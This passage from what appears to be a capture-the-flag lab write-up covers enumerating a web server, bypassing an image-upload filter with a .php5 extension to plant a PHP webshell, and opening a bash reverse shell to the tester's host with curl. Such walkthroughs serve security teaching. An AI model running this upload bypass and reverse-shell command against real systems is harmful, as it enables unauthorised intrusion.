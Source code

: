 ```
[+] Timeout:                 10s
===============================================================
2023/01/21 22:12:17 Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 309]
/.php                 (Status: 403) [Size: 308]
/uploads              (Status: 301) [Size: 331] [--> http://10.129.99.48/sparklays/design/uploads/]                                                                                       
/design.html          (Status: 200) [Size: 72]
```

### Logo Changing

On the `design.html` page, all we see is this:

<figure><img src="../../../.gitbook/assets/image (2) (3) (3).png" alt=""><figcaption></figcaption></figure>

This brings us to `changelogo.php`, which allows us to upload a file. Only image file are allowed. Obviously, we have to upload a PHP webshell somehow and bypass the file type check. I tried with multiple PHP extensions, and found that `.php5` works.

<figure><img src="../../../.gitbook/assets/image (38) (1).png" alt=""><figcaption></figcaption></figure>

```
$ curl http://sparklays.com/sparklays/design/uploads/test1.php5?cmd=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Now, we have RCE on the machine and can get a reverse shell. We can use this command here:

```
$ curl -G --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/10.10.14.21/4444 0>&1"' http://sparklays.com/sparklays/design/uploads/test1.php5
```
